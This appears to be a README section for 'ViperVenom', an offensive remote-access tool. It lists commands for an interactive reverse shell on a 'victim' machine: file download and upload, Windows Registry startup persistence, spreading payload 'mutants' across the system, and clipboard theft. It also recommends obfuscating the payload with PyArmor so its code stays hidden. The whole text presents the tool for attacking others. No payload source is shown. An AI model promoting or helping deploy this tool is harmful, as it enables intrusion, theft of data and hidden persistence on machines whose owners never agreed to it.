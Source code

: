 Get a full interactive reverse shell from your target machine + special commands

### Special Shell Commands
After using the "shell" command, other than having a reverse shell, this reverse shell comes with additional commands like file download and upload.

For gaining shell (see a few lines above)
```
$ shell
```
After you got a shell and was able to "cd" around and test it to see if it works, try the additional commands:
```
$ download {file}
```
Download a file from the target machine to the attacker machine (you), use this command after gaining a shell access only.
```
$ upload {file}
```
Upload the file from your machine to the target machine, use this command after gaining a shell access only.

```
$ persistence {file}
```
Adds a file to Windows Registry startup. Recommended for persistence, use this command after gaining a shell access only.
```
$ terminate
```
Terminates the shell session, use this command after gaining a shell access only.
```
$ merciless {file}
```
Merciless Technology creates mutants of ViperVenom payloads across the system (BETA), use this command after gaining a shell access only.
```
clipboard
```
This command will grab the victim machine's clipboard, use this command after gaining a shell access only.
## Recommeneded!
As we are developing Vultrlabs's ViperVenom, Vultrlabs tested [pyarmor](https://pypi.org/project/pyarmor/),
PyArmor is a command-line tool used to obfuscate python scripts, so you can encode your client file so the source code won't be shown.
```
$ pip3 install pyarmor
$ cd vipervenom-main
$ pyarmor obfuscate <payload_name>.py
```
Thanks to PyArmor developers for the ability to encode Python code without breaking the program, kudos to them!
Another option is to use the setup.py to build an executable so the script will work on every machine without having Python installed
